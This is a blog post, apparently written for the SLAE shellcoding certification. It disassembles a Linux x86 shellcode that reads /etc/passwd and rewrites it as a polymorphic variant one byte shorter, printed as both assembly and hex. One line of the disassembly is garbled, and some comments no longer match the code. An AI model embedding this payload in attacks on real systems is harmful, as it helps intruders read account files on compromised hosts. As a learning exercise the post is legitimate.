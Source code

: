 # Shellcode - read /etc/passwd

[http://shell-storm.org/shellcode/files/shellcode-842.php](http://shell-storm.org/shellcode/files/shellcode-842.php)

```c
echo -n "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -
```


# Disassembled

I have taken the disassembly and put it in a `.nasm` file format as  a starting point. I also marked some important values in comments.

```x86asm
global _start

section .text
_start:
    xor ecx,ecx
    mul ecx
    mov al,0x5      ; open()
    push ecx
    push dword 0x64777373       ; "dwss"
    push dword 0x61702f63       ; "ap/c"
    push dword 0x74652f2f       ; "te//"
    mov ebx,esp
    int 0x80

    xchg eax,ebx
    xchg eax,ecx
    mov al,0x3       ; read()
    xor edx,edx
    mov dx,0xfff
    inc edx
    int 0x80

    xchg eax,edx
    xor eax,eax
    mov al,0x4          ; write()
    mov bl,0x1      ; STDOUT
    int 0x80


    xchg eax,ebx        ; mov 0x1 into eax, exit()
    int 0x80t 0x80

```

# Changes

Since my goal was to reduce the number of bytes for extra credit, I did not change too many things, but the code is polymorphic and differs from the original.

First, I just changed the string that is pushed to the stack from `//etc/passwd` to `/etc//passwd`.

```x86asm
; push dword 0x61702f63       ; "ap/c"
; push dword 0x74652f2f       ; "te//"
push dword 0x61702f2f       ; "ap/c"
push dword 0x6374652f       ; "te//"
```

I then removed the `xor` to clear `edx` as it should have been cleraed from the previous `xor ecx, ecx; mul ecx` instructions. This saves me two bytes from the original shellcode in total length.

```x86asm
; xor edx,edx       
; edx is already cleared from `mul` instruction above 
```

Instead of moving `0xfff` into `dx` and incrementing, I move `0x1001` into `dx` and decrement.

```x86asm
; mov dx,0xfff
; inc edx
mov dx, 0x1001
dec edx
```

Here I change an `xor` with a `sub`. This may not work on all operating systems.

```x86asm
; xor eax,eax
sub eax, eax
```

I then change an `xchg` to a `mov` instruction for the exit() syscall. Since I have removed 2 bytes from the shellcode up until now, this instruction adds one extra byte from the original and places me one byte less than the original for my final shellcode.


```x86asm
; xchg eax,ebx        ; mov 0x1 into eax, exit()
mov al, 0x1
```

# Final Shellcode

```x86asm
global _start

section .text
_start:
    xor ecx,ecx
    mul ecx

    mov al,0x5      ; open()
    push ecx
    push dword 0x64777373       ; "dwss"
    ; push dword 0x61702f63       ; "ap/c"
    ; push dword 0x74652f2f       ; "te//"
    push dword 0x61702f2f       ; "ap/c"
    push dword 0x6374652f       ; "te//"
    
    mov ebx,esp
    int 0x80

    xchg eax,ebx
    xchg eax,ecx
    mov al,0x3       ; read()

    ; xor edx,edx       
    ; edx is already cleared from `mul` instruction above 

    ; mov dx,0xfff
    ; inc edx
    mov dx, 0x1001
    dec edx

    int 0x80

    xchg eax,edx

    ; xor eax,eax
    sub eax, eax
    
    mov al,0x4          ; write()
    mov bl,0x1        ; STDOUT
    int 0x80

    ; xchg eax,ebx        ; mov 0x1 into eax, exit()
    mov al, 0x1

    int 0x80
```

Final Shellcode: 

```c
"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\x01\x10\x4a\xcd\x80\x92\x29\xc0\xb0\x04\xb3\x01\xcd\x80\xb0\x01\xcd\x80"
```

Original shellcode length: 51 bytes

My shellcode length: 50 bytes



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

